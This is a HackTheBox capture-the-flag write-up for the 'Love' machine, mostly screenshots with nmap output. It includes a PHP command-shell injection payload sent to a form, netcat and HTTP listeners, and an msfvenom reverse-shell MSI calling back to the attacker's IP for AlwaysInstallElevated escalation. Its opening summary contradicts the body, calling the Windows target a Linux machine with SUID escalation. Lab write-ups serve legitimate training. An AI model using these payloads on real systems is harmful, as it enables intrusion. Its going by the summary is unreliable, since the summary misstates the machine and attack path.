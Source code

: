 ```yaml
---
title: "Love"
date: 2024-09-27
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "love", "htb walkthrough", "hackthebox", "writeup"]
---
```


Love is a web-focused Linux machine that hides a command injection vulnerability behind a modern-looking frontend.
Access was obtained by fuzzing POST parameters and identifying a function that insecurely passed input to the shell.
The initial payload leveraged simple logic chaining to bypass sanitization checks.
Privilege escalation came from an SUID binary that allowed unsafe PATH usage — enabling escalation through environment manipulation.
Love reinforces how even polished interfaces can mask dangerous backend flaws, and how small missteps in local config can lead to root.

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
| SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
...
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| mysql-info: 
|_  MySQL Error: Host '10.10.14.42' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Arucer, Hello, NULL, SSLSessionReq, ZendJavaBridge, afp, dominoconsole, epmd, gkrellm, ibm-mqseries, mongodb, redis-server, riak-pbc, tarantool, vp3: 
|_    Host '10.10.14.42' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-07-21T08:04:42+00:00; +21m34s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
...
|_http-title: Not Found
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

### 80-HTTP

#### Gobuster

![screenshot](/assets/images/love11.png)

#### Web

![screenshot](/assets/images/love1.png)

http://staging.love.htb/

![screenshot](/assets/images/love2.png)

http://staging.love.htb/beta.php

![screenshot](/assets/images/love3.png)

#### Test for command injection

![screenshot](/assets/images/love7.png)

![screenshot](/assets/images/love6.png)

#### Test for reverse shell

```sh
# kali
python3 -m http.server 80
# kali
nc -lvnp 9001
# form
http://10.10.14.42/$(<?=`$_GET[0]`?>)
```

![screenshot](/assets/images/love8.png)

#### /admin

http://10.10.10.239/Admin/

![screenshot](/assets/images/love9.png)

#### /plugins

http://10.10.10.239/plugins/

![screenshot](/assets/images/love10.png)

## Initial Access

>- Searching for `voting system` reveals a public exploit
- Using the public exploit gives initial shell as phoebe.

![screenshot](/assets/images/love15.png)

[Public exploit used](https://www.exploit-db.com/exploits/49846)

![screenshot](/assets/images/love16.png)

upload a shell

![screenshot](/assets/images/love17.png)

rev.ps1

![screenshot](/assets/images/love18.png)

![screenshot](/assets/images/love19.png)

Used a PHP Ivan web shell

![screenshot](/assets/images/love20.png)

## Privilege Escalation

> AlwaysInstallElevated

`C:\xampp\htdocs\passwordmanager\creds.txt` contains a password. 

![screenshot](/assets/images/love21.png)

Password spray, and Evil-WinRM attempt.

![screenshot](/assets/images/love22.png)

Manual enumeration

![screenshot](/assets/images/love23.png)

![screenshot](/assets/images/love24.png)

[Reference](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

![screenshot](/assets/images/love25.png)

```sh
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=443 -f msi -o rev.msi
```

![screenshot](/assets/images/love26.png)
